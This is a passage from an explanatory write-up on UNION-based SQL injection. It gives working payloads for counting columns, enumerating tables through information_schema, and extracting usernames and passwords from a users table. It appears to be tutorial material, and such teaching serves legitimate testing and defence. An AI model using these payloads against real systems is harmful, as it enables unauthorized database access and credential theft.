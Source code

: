- **Method 1: `ORDER BY` Injection**  
  By injecting `ORDER BY [number]`, attackers test column counts incrementally until an error occurs. For example:  
  ```sql
  id=1' ORDER BY 5-- 
  ```  
  If this triggers an error, the original query likely has **4 columns** (since ordering by the 5th column is invalid).  

- **Method 2: Trial-and-Error with `UNION SELECT NULL`**  
  Test payloads with increasing numbers of `NULL` values until the query executes without error:  
  ```sql
  id=1' UNION SELECT NULL,NULL,NULL--  (3 columns)  
  id=1' UNION SELECT NULL,NULL,NULL,NULL--  (4 columns)  
  ```  

---

#### **2. Enumerate Database Schema**  
Once the column count is known, attackers use the `information_schema` database to discover table and column names:  

- **List Tables and Columns**  
  ```sql
  id=1' UNION SELECT table_name, column_name FROM information_schema.columns-- 
  ```  
  This returns metadata like:  
  | table_name | column_name |  
  |------------|-------------|  
  | users      | id          |  
  | users      | username    |  
  | users      | password    |  

- **Target Specific Tables**  
  To focus on sensitive tables:  
  ```sql
  id=1' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()-- 
  ```  

---

#### **3. Craft the Data Extraction Payload**  
With schema knowledge, attackers construct a `UNION SELECT` to retrieve desired data. Key considerations include:  

- **Matching Data Types**  
  Columns must have compatible data types. For example, if the original query returns an integer and a string, the injected `SELECT` must follow the same pattern.  

- **Handling Mismatches with Casting/Concatenation**  
  Use `CAST()` or `CONCAT()` to align data types:  
  ```sql
  id=1' UNION SELECT CAST(id AS CHAR), CONCAT(username, ':', password) FROM users-- 
  ```  
